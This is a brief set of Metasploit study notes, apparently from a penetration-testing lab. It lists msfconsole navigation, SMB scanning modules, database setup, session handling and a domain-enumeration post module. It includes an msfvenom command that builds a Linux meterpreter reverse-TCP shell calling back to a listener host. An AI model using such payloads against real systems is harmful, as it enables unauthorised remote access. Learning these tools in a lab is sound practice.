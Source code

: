 msfconsole

cd /usr/share/metasploit-framework/modules

tree -L 1 auxiliary

`smb_version`
`smb_enumshares`

`systemctl start postgresql`

`msfdb init`

`msfconsole`

`db_status`

`workspace`

`db_nmap`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.4.20.232 LPORT=1234 -f elf > rev_shell.elf

CTRL Z to background a session
sessions -i 1 to select number 1 in the session
sessions


modules:
post/windows/gather/enum/domain


meterpreter:
sysinfo




















































